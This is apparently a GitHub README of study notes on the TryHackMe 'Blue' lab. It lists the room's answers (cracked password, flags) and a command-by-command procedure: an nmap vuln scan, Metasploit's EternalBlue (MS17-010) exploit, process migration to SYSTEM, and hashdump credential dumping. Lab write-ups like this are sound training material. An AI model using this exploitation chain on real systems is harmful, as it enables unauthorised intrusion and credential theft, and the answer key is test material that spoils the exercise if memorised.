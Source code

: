 # Blue machine on thm

This is my first machine repository.\
This repository is made with the purpose of taking notes about the machine, therefore possible future study material.

## THM tasks

- How many ports are open with a port number under 1000?
  - 3

- What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
  - ms17-010

- Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
  - exploit/windows/smb/ms17_010_eternalblue

- Show options and set the one required value. What is the name of this value? (All caps for submission)
  - rhosts

- If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
  - post/multi/manage/shell_to_meterpreter

- Select this (use MODULE_PATH). Show options, what option are we required to change?
  - sessions

- Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
  - jon

- Copy this password hash to a file and research how to crack it. What is the cracked password?
  - alqfna22

- Flag1? This flag can be found at the system root. 
  - flag{access_the_machine}

- Flag2? This flag can be found at the location where passwords are stored within Windows.
  - flag{sam_database_elevated_access}

- Flag3?
  - flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

## Pocedure

### Scanning

First of all, I'm making an nmap scan and saving it in the file initialNmap_scan:
```
sudo nmap -sV -vv -script vuln 10.10.92.38 -oN initialNmap_scan
```

The scans shows a remote code execution (RCE) vulnerability in Microsoft SMBv1 servers.

### Exploit

This vulneravility should be exploitable with metasploit, so I'm starting it:
```
msfconsole
```

I look for the right module in metasploit:
```
search ms17-010
```

I find eternalblue and I select it:
```
use <number of module in the list>
```

After selecting it, I set the value rhosts with the IP of the target machine in THM
```
set rhosts 10.10.92.38
```

It's al set now, time to run the expoit
```
run
```

### Escalate
At this point, I'm rebooting the machine so the IP is different (10.21.13.118)

I've realised that I didn't set the lhost to my openvpn IP, and that was causing the failure, now I set it up:
```
setg lhost 10.21.13.118
```

The exploit should have set up a shell, and I was supposed to escalate it to meterpreter, but with the default payload it already escalated it, so there's no need to do it mannually.
If i run 'shell' and 'whoami' I will get that we are system.

PID of the powershell.exe NT AUTHORITY\SYSTEM: 2900

Now we migrate to this process:
```
migrate PROCESS_ID
```

Now we are in the powershell.
I now run 'hashdump' to get the hashes of the users: Jon, and check if I can crack the password in hashes.com

### Flags

I've found the first flag running 'search flag*'

Now I just have to go to the directories and check them.
